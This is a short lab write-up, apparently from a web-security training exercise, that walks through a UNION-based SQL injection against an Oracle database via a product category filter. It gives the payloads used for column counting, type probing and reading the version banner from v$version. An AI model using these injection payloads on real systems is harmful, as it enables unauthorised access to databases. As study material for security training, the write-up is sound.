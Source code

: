 # SQL injection attack, querying the database type and version on Oracle

## Given:
- vulnerability in product category filter.

## Task:
- use a UNION attack to retrieve the results from an injected query.
    - display the database version string to solve the lab

## Analysis

- Examine product category filter, and append `'` in the url. => gives 500 internal server error.
- Error vanishes when comment(--) `'--` is used.
- double hyphens (--) are working for comments => database must be either oracle, microsoft or PostgreSQL.

- checking for number of columns (to perform union based SQLi)
    - payload: `ORDER BY 1--` => Response [200]
    - payload: `ORDER BY 2--` => Response [200]
    - payload: `ORDER BY 3--` => Response [500] ==> only two columns present in table

- checking for columns if it supports characters or not
    - payload: `UNION SELECT NULL, NULL--` => response [500]  ==> something fishy
    - payload: `UNION SELECT NULL, NULL FROM dual--` => response [200] ==> oracle database is used
    - payload: `UNION SELECT 'A', NULL FROM dual--` => response [200]
    - payload: `UNION SELECT 'A', 'A' FROM dual--` => response [200] ==> both columns supports the characters

- using payload to check database for oracle : `SELECT banner FROM v$version`
    - payload: `'UNION SELECT NULL, banner from v$version--` => response [200] ==> lab solved 
